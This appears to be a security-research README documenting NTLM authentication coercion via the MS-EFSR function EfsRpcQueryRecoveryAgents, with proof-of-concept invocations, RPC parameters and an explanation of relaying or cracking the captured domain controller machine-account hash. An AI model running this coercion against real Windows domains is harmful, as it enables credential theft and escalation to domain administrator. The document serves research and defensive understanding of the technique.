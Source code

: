 # MS-EFSR - Remote call to EfsRpcQueryRecoveryAgents (opnum 7)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **Function name**: [`EfsRpcQueryRecoveryAgents`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea)

 - **Function operation number**: `7`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\lsarpc` and bind to (uuid `c681d488-d850-11d0-8c52-00c04fd90f7e`, version `1.0`) in order to perform calls to RPC functions of the `MS-EFSR` protocol.

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Password123!" 192.168.2.51 192.168.2.1
```

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcQueryRecoveryAgents`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcQueryRecoveryAgents('192.168.2.51\x00', 'test\x00', 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD EfsRpcQueryRecoveryAgents(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [out] ENCRYPTION_CERTIFICATE_HASH_LIST** RecoveryAgents
);
```

 - **binding_h**: This is an RPC  binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

 - **FileName**: An EFSRPC identifier as specified in section 2.2.1.

 - **RecoveryAgents**: A list of certificate hashes, represented by an ENCRYPTION_CERTIFICATE_HASH_LIST structure.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcQueryRecoveryAgents`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea